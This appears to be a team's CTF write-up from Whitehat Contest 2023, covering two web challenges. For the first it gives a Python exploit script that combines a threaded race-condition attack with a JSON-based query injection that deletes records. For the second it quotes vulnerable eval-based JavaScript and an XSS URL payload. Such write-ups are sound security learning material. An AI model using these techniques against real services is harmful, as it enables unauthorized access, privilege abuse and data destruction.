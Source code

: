```yaml
---
title: Whitehat Contest 2023
date: 2023-10-30
categories: [CTF]
tags: [Write up]
---
```


## Information 
Team name: `YouAreMyUniverse`  
Rank: `3rd place`

## Write up
### web/atten-dance  

#### Desc
Get first flag with race condition attack,  
Get second flag with sql injection ( `Json injection` )
#### Exploit
```python
import requests
import threading
import time

url = 'http://13.209.18.49:3000'

# Flag 1

requests.get(f"{url}/join", params={"username": "dummy"})
time.sleep(1)

def worker(thread_num):
    requests.get(f"{url}/check", params={"username": "dummy"})

threads = []

for i in range(100):
    thread = threading.Thread(target=worker, args=(i,))
    threads.append(thread)
    thread.start()

res = requests.get(f"{url}/claim", params={"username": "dummy"})
print(res.text)

# Flag2

res = requests.post(f"{url}/del", json={"username": {"contains": "a"}})
print(res.text)
```

### web/oshinolist  

#### Desc
XSS with eval
```javascript
// File: CustomPlayer.js

$("video[id*=video_]").on("loadeddata", function () {
    const selected_id = $(this).attr("id").replace("video_", "");
    if ($("#source_" + selected_id).length == 0) {
        try {
            eval(`type_${selected_id}()`);
        } catch (e) { }
    }
});
```
#### Exploit
```plaintext
?urls=https://video.mp4,https://video.mp4?a.a:eval(atob("payload"))
```  
  
## Comment
It was Fun and Helpful CTF with Good quality Wargame.  
I'm happy to have won third place, and I am thankful to the `team members`.